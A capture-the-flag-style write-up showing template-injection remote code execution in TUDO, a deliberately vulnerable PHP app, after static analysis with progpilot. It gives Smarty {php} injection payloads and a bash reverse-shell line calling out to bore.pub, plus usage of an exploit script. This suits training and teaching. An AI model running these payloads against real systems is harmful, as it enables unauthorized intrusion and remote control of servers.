# Remote Code Execution in TUDO

Writeup for RCE in [TUDO](https://github.com/bmdyy/tudo) app using template injection. It assumes that the attacker can already log in as admin.

## Setup

Start the vulnerable app usind Docker.

```sh
docker compose up -d
```

Open the app on http://localhost:8000. Login with username `admin` and password `admin`.






## Static Analysis

First, run security static code analysis using [progpilot](https://github.com/designsecurity/progpilot).

For simplicity, use a new docker container with php cli.

```sh
docker run --rm -it -v "$(pwd)":/app -w /app php:8.2-cli bash
```

Inside the container, install [composer](https://getcomposer.org/) and use it to install `progpilot`.

```sh
apt-get update && apt-get install -y git unzip zip
curl -sS https://getcomposer.org/installer | php
php composer.phar require --dev designsecurity/progpilot
```

Progpilot needs a yaml configuration:

```yaml
sources:
  - type: "input"
    regex: "_GET|_POST|_REQUEST|_COOKIE|_SESSION"
sinks:
  - type: "exec"
    regex: "eval|system|exec|shell_exec|passthru|popen|proc_open"
  - type: "sql"
    regex: "query|mysql_query|mysqli_query|pg_query|prepare|execute"
  - type: "include"
    regex: "include|require|include_once|require_once"
```

Run the static analysis on the app:

```sh
vendor/bin/progpilot --configuration progpilot.yml app/
```

We see the following output:

```json
[
    {
        "source_name": [
            "$userObj"
        ],
        "source_line": [
            5
        ],
        "source_column": [
            102
        ],
        "source_file": [
            "\/app\/app\/admin\/import_user.php"
        ],
        "sink_name": "unserialize",
        "sink_line": 7,
        "sink_column": 183,
        "sink_file": "\/app\/app\/admin\/import_user.php",
        "vuln_name": "code_injection",
        "vuln_cwe": "CWE_95",
        "vuln_id": "8fc9c5141674d34986c3ad4c55f46bbf0fca8b34d00e4e6ffe7a56d1faa06886",
        "vuln_type": "taint-style"
    },
    {
        "source_name": [
            "$template"
        ],
        "source_line": [
            34
        ],
        "source_column": [
            826
        ],
        "source_file": [
            "\/app\/app\/admin\/update_motd.php"
        ],
        "sink_name": "echo",
        "sink_line": 41,
        "sink_column": 1214,
        "sink_file": "\/app\/app\/admin\/update_motd.php",
        "vuln_name": "xss",
        "vuln_cwe": "CWE_79",
        "vuln_id": "f6c3d43346bf5abd00f9aaba20edd103aed3adcab3365022db10c5d7fa991a6e",
        "vuln_type": "taint-style"
    },
    //...
]
```



It suggests that there might be code injection vulnerability related to `unserialize` in `import_user.php`, an XSS vulnerability in `update_motd.php` and many others.


## Vulenerability

Explore the code in `update_motd.php`.

User can submit a form with textarea whose content gets witten directly to a template file.

```php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $message = $_POST['message'];

    if ($message !== "") {
        $t_file = fopen("../templates/motd.tpl","w");
        fwrite($t_file, $message);
        fclose($t_file);

        $success = "Message set!";
    } else {
        $error = "Empty message";
    }
}
```

The template file gets parsed using Smarty on `index.php` page.

```php
require 'vendor/autoload.php';
$smarty = new Smarty();
$smarty->assign("username", $_SESSION['username']);
$smarty->force_compile = true;
echo $smarty->fetch("motd.tpl").'<br>';
```

There is a template injection vulnerability!

## Exploit

First, test if template injection works. Input this into the form:

```
Hello, {$username}! Welcome to TUDO -admin :)

{$smarty.version}
```

```php
{php}phpinfo();{/php}
```





See if we can use `system()` to execute commands:

```php
{php}system("whoami");{/php}
```




We have RCE!

### Shell

For style points, let's setup a reverse shell.

Listen on port 1234 on a local machine:

```sh
nc -lvnp 1234
```

Use [bore](https://github.com/ekzhang/bore) (or any other tool you like) to forward TCP traffic.

```sh
bore local 1234 --to bore.pub
```

Finally, use RCE to start an interactive shell and forward stdin, stdout and stderr over TCP.

```php
{php}
exec("/bin/bash -c 'bash -i >& /dev/tcp/bore.pub/19370 0>&1'");
{/php}
```






## Python script

I have written a Python script that automates the exploit. Run it with:

```sh
python exploit.py -u APP_URL -l HOST -p PORT
```

For example:

```sh
python exploit.py -u http://localhost:8000 -l bore.pub -p 19370
```
